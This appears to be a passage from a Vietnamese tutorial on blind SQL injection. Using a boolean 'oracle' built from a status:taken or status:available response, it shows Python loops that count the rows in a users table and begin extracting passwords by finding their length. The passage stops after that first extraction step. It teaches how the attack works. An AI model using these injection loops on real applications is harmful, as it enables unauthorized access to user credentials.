 
---

### **Thực hành: Tìm số hàng trong bảng `users`**

Sử dụng **Oracle** để xác định số hàng trong bảng **`users`**:

#### **Ý tưởng**
- Sử dụng truy vấn cơ sở: **`(SELECT COUNT(*) FROM users) > N`**, với **`N`** là số bạn kiểm tra.
- Tăng dần giá trị **`N`** cho đến khi phản hồi chuyển từ **`True`** sang **`False`**, bạn sẽ tìm được số hàng thực tế.

#### **Triển khai**
```python
# Tìm số hàng trong bảng `users`
def count_rows():
    count = 0
    # Tăng dần giá trị `count` đến khi Oracle trả về False
    while oracle(f"(SELECT COUNT(*) FROM users) > {count}"):
        count += 1
    return count

# Chạy hàm và in kết quả
rows = count_rows()
print(f"Số hàng trong bảng `users`: {rows}")
```

---

### **Giải thích hoạt động**
1. **Oracle kiểm tra `True`/`False`:** 
   - Nếu truy vấn trả về kết quả **`True`**, trạng thái là **`status:taken`**.
   - Nếu trả về **`False`**, trạng thái là **`status:available`**.
2. **Tìm số hàng:** 
   - Hàm **`count_rows()`** tăng dần giá trị **`count`** và kiểm tra kết quả với Oracle.
   - Khi kết quả là **`False`**, nghĩa là **`count`** là số hàng thực tế.

---
# 5. Trích xuất dữ liệu qua Blind SQL Injection

**Bước 1: Xác định độ dài của mật khẩu**

Để trích xuất mật khẩu, bước đầu tiên là tìm độ dài của mật khẩu trong cơ sở dữ liệu. Ta sử dụng hàm SQL **`LEN(column)`** để so sánh và tăng dần giá trị cho đến khi tìm được độ dài chính xác.

#### **Ví dụ triển khai**

```python
# Tìm độ dài mật khẩu của mục tiêu
length = 0

# Lặp cho đến khi độ dài thực tế được tìm thấy
while not oracle(f"LEN(password)={length}"):
    length += 1

print(f"[*] Password length = {length}")
```
